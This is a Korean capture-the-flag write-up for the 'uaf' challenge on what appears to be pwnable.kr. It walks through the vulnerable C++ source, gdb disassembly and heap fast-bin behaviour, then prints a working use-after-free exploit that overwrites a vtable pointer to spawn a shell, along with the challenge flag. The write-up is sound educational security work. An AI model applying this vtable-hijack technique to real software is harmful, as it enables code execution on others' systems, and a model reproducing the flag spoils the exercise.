




uaf Solution
===============



문제를 보면 UAF 버그를 이용해 푸는 문제인 것 같다. 서버에 접속해 보자.



현재 사용자와 디렉터리 정보다. uaf와 uaf.cpp를 이용해 flag를 얻어야 한다. 이번 문제의 uaf는 C가 아닌 C++로 작성되었다. 코드를 살펴보자.

- uaf.cpp

```cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
    }
    virtual void introduce(){
		Human::introduce();
        cout << "I am a nice guy!" << endl;
    }
};

class Woman: public Human{
public:
    Woman(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a cute girl!" << endl;
    }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

UAF 취약점을 이용해 Human 클래스의 give_shell() 함수를 호출해서 flag를 얻는 것 같다. 메모리 해제(3) 후 프로그램 argv[1]만큼 char 배열을 할당(new)하고, argv[2] 파일의 내용을 해당 메모리에 넣을 수 있다. Man 객체와 Woman 객체가 어디에 할당 되고, data 배열은 어디에 할당되는지 디버깅하며 확인해보자. 

디버거를 실행 후 디스어셈블을 해보면 심볼의 함수명이 깨진 것처럼 보여 디버깅에 어려움이 생긴다. 이는 다형성을 갖는 언어를 컴파일 할 때 수행되는 '맹글링'이라는 작업 때문이다. 다음의 명령어로 함수명을 디맹글 할 수 있다.

```bash
(gdb) set print asm-demangle on
```

uaf.cpp main() 함수 일부의 어셈블리를 조금씩 살펴보자.

- case 1 (use)

```asm
   0x0000000000400fcd <+265>:	mov    -0x38(%rbp),%rax
   0x0000000000400fd1 <+269>:	mov    (%rax),%rax 
   0x0000000000400fd4 <+272>:	add    $0x8,%rax 
   0x0000000000400fd8 <+276>:	mov    (%rax),%rdx 
   0x0000000000400fdb <+279>:	mov    -0x38(%rbp),%rax
   0x0000000000400fdf <+283>:	mov    %rax,%rdi
   0x0000000000400fe2 <+286>:	callq  *%rdx
   0x0000000000400fe4 <+288>:	mov    -0x30(%rbp),%rax
   0x0000000000400fe8 <+292>:	mov    (%rax),%rax
   0x0000000000400feb <+295>:	add    $0x8,%rax
   0x0000000000400fef <+299>:	mov    (%rax),%rdx
   0x0000000000400ff2 <+302>:	mov    -0x30(%rbp),%rax
   0x0000000000400ff6 <+306>:	mov    %rax,%rdi
   0x0000000000400ff9 <+309>:	callq  *%rdx
   0x0000000000400ffb <+311>:	jmpq   0x4010a9 <main+485>
```

위 어셈블리는 1번 use를 선택했을 때 실행되는 코드다. m->introduce()와 w->introduce()를 실행한다. 이 부분을 분석해 포인터 m, w가 어디를 가리키고 있는지, 즉 Man과 Woman 객체가 어느 메모리에 할당되었는지 알아 보자. %rbp-0x38 번지에 저장된 값을 %rax에, 또 그 %rax가 가리키는 곳을 다시 %rax에 저장 후 8을 더한다. 그 값이 가리키는 값을 호출(%rdx) 하고 있다. <+272>의 %rax는 Man 객체(m)의 vtable일 것이다. 중단점을 걸고 확인해 보자.



위 결과를 보면 %rbp-0x38에 저장된 값인 0xc86c50(동적으로 할당된 값이므로 매 실행마다 달라짐)은 포인터 m의 값인 것을 알 수 있다. m이 가리키는 곳에는 Man의 vtable(0x401570 부터 0x401578 까지)과 멤버 변수 age(=0x19), name(=0xc86c38)이 저장되어 있다. m이 가리키는 Man 객체는 총 24 byte 크기인 것 같다. 

Man의 vtable에는 0x40117a와 0x4012d2가 저장되어 있다. 0x4012d2는 Man::introduce() 메소드의 시작 주소이다. 0x40117a도 디스어셈블 해보자.



0x40117a는 Human::give_shell() 메소드의 시작 주소였다. 이 것을 이용해 쉘을 얻을 수 있을 것 같다. 

이제 free(3) 후 after(2) 를 실행하면 data 배열이 어디에 할당되는지 알아보기 위해 어셈블리를 확인해 본다.

- case 2 (after)

```asm
   0x0000000000401000 <+316>:	mov    -0x60(%rbp),%rax
   0x0000000000401004 <+320>:	add    $0x8,%rax
   0x0000000000401008 <+324>:	mov    (%rax),%rax
   0x000000000040100b <+327>:	mov    %rax,%rdi
   0x000000000040100e <+330>:	callq  0x400d20 <atoi@plt>
   0x0000000000401013 <+335>:	cltq   
   0x0000000000401015 <+337>:	mov    %rax,-0x28(%rbp)
   0x0000000000401019 <+341>:	mov    -0x28(%rbp),%rax
   0x000000000040101d <+345>:	mov    %rax,%rdi
   0x0000000000401020 <+348>:	callq  0x400c70 <operator new[](unsigned long)@plt>
   0x0000000000401025 <+353>:	mov    %rax,-0x20(%rbp)
   0x0000000000401029 <+357>:	mov    -0x60(%rbp),%rax ; 0x00007ffd723712f8
   0x000000000040102d <+361>:	add    $0x10,%rax ; 0x00007ffd72371308
   0x0000000000401031 <+365>:	mov    (%rax),%rax
   0x0000000000401034 <+368>:	mov    $0x0,%esi
   0x0000000000401039 <+373>:	mov    %rax,%rdi
   0x000000000040103c <+376>:	mov    $0x0,%eax
   0x0000000000401041 <+381>:	callq  0x400dc0 <open@plt>
   0x0000000000401046 <+386>:	mov    -0x28(%rbp),%rdx
   0x000000000040104a <+390>:	mov    -0x20(%rbp),%rcx
   0x000000000040104e <+394>:	mov    %rcx,%rsi
   0x0000000000401051 <+397>:	mov    %eax,%edi
   0x0000000000401053 <+399>:	callq  0x400ca0 <read@plt>
   0x0000000000401058 <+404>:	mov    $0x401513,%esi
   0x000000000040105d <+409>:	mov    $0x602260,%edi
   0x0000000000401062 <+414>:	callq  0x400cf0 <std::basic_ostream<char, std::char_traits<char> >& std::operator<< <std::char_traits<char> >(std::basic_ostream<char, std::char_traits<char> >&, char const*)@plt>
   0x0000000000401067 <+419>:	mov    $0x400d60,%esi
   0x000000000040106c <+424>:	mov    %rax,%rdi
   0x000000000040106f <+427>:	callq  0x400d50 <std::ostream::operator<<(std::ostream& (*)(std::ostream&))@plt>
   0x0000000000401074 <+432>:	jmp    0x4010a9 <main+485>
```

data 배열의 시작 주소는 read() 함수를 호출할 때 인자로 전달되는 %rsi 레지스터 값을 보면 알 수 있다. <+394>에서 %rcx 값이 %rsi 에 저장된다. 중단점을 걸고 어떤 값을 갖는지 보자. 이 때 Man 객체와 같은 크기를 갖도록 실행 인자 argv[1]에 24를 넣어 봤다.

```bash
Breakpoint 1, 0x0000000000400fe2 in main ()
gdb-peda$ x/xg $rbp-0x38
0x7ffecb64ce98:	0x0000000000d0cc50

Breakpoint 2, 0x0000000000401053 in main ()
gdb-peda$ info reg rsi
rsi            0xd0cca0	0xd0cca0
```

free 전 Man 객체는 0xd0cc50에, free 이후 after의 data 배열은 0xd0cca0에 할당되었다. 두 값이 0x50 만큼 차이가 난다. 이 부분에서 의문이 생겨 Heap 메모리 구조를 조금 더 공부했다.

-------------------------------

### Heap allocation

힙은 메모리의 효율적인 할당 및 해제를 위한 데이터 구조인 'bin'을 사용한다. 4 ~ 5 가지의 bin이 있으며 할당 / 해제 할 메모리의 크기가 클수록 느리고, 작을수록 가장 빠른 bin을 사용한다. 여기서는 할당 및 해제가 가장 빠른 'fast bin' 을 알아 보자.

#### fast bin
메모리 할당과 해제가 가장 빠른 bin이다. **LIFO 방식**을 사용하고 단일 연결리스트로 청크를 관리한다. fast bin은 32 bit 시스템에서 16 ~ 88 byte의 청크를 관리하고, 64 bit 시스템에서는 32 ~ 128 byte의 청크를 관리한다. 

----------------------------------

다시 돌아가 보면, fast bin은 LIFO 방식을 사용하고 있기 때문에 할당할 메모리의 크기가 w, m에 할당된 메모리 청크의 크기와 맞다면 가장 마지막에 할당 해제된 Woman 객체의 주소가 먼저 할당되는 것이다. 따라서 한 번 더 after를 실행한다면 해제된 Man 객체의 주소가 data 배열로 할당될 것이다. 

```bash
Breakpoint 2, 0x0000000000401053 in main ()
gdb-peda$ info reg rsi
rsi            0xd0cc50	0xd0cc50
```

free 후 after를 두 번 실행했을 때 data 배열에 할당된 주소가 이전 Man 객체의 주소와 같다는 것을 알 수 있다. 이제 data 배열에 들어갈 내용을 0x401568로 설정해 준다면 m->introduce()를 호출할 때 0x401568 + 0x8 = 0x401570 번지에 저장된 값을 호출하게 된다. 위에서 확인했듯이 0x401570 번지에는 Human::give_shell()의 시작 주소가 저장되어 있다. 

```bash
uaf@pwnable:~$ python -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/gogee/hi
uaf@pwnable:~$ ./uaf 24 /tmp/gogee/hi
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
$ 
```

"yay_f1ag ..." 가 이번 문제의 flag이다.

-------------------------------

알고 보니 Man, Woman 객체가 할당된 메모리 청크의 크기가 24 byte가 아니었다. Heap 메모리 구조에 관해 더 공부를 해야할 것 같다. 

[About Heap](./heap.md)